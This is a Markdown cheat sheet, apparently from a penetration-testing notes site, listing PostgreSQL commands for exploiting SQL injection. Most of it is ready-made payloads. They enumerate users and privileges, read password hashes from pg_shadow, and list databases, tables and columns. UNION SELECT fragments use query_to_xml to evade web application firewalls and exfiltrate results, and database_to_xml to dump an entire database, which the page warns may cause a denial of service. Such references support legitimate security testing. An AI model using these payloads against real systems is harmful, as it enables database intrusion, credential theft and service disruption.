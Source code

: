 ```yaml
---
title: "PostgreSQL"
description: "PostgreSQL commands to extract data while exploiting SQL injection"
date: 08/09/2020
categories:
 - SQL
tags:
 - postgresql
 - sql
 - sql-injection
---
```



## Injection SQL

### Cheat Sheet

Here is some useful commands to deal with SQL injection:

| Detail                              | SQL command                                                                                          |
|:------------------------------------|:-----------------------------------------------------------------------------------------------------|
| Version                             | `SELECT version()`                                                                                   |
| List Users                          | `SELECT usename FROM pg_user`                                                                        |
| List users and passwords            | `SELECT usename, passwd FROM pg_shadow`                                                              |
| List Privileges                     | `SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user`                                      |
| Database Name                       | `SELECT current_database()`                                                                          |
| List databases                      | `SELECT datname FROM pg_database`                                                                    |
| List tables                         | `SELECT table_name FROM information_schema.tables`                                                   |
| List columns                        | `SELECT column_name FROM information_schema.columns WHERE table_name='data_table'`                   |
| Select nth row                      | `SELECT ... LIMIT 1 OFFSET {n}`                                                                      |
| Concatenate strings in the same row | `SELECT CONCAT(username, ', ', passwd) FROM pg_shadow`                                               |
| Concatenate column                  | `SELECT string_agg(column_name, ', ') FROM information_schema.columns WHERE table_name='data_table'` |



### XML functions

#### query_to_xml

The following functions map the contents of relational tables to XML values:

```sql
query_to_xml(query text, nulls boolean, tableforest boolean, targetns text)
table_to_xml(tbl regclass, nulls boolean, tableforest boolean, targetns text)
cursor_to_xml(cursor refcursor, count int, nulls boolean, tableforest boolean, targetns text)
```

With `query_to_xml` you can bypass WAF and exfiltrate the query results in a
single string:

```sql
... UNION SELECT '1', '2', query_to_xml('select * from pg_user', true, true, ''), '4', ...
```


#### database_to_xml

The following function may be available and returns the entire current database:

```sql
database_to_xml(nulls boolean, tableforest boolean, targetns text)
```

The exploitation is as follow. Be careful the process may timeout or DOS the
server:

```sql
... UNION SELECT '1', '2', database_to_xml(true, true, ''), '4', ...
```


### JSON functions

PostgreSQL implements JSON functions to interact with this data structure.


### to_jsonb - extract line as a JSON object

```sql
SELECT to_jsonb(t.*) FROM my_table t;
```

### jsonb_object_keys - extract columns names

```sql
SELECT jsonb_object_keys((SELECT to_jsonb(t.*) FROM my_table t LIMIT 1));
```
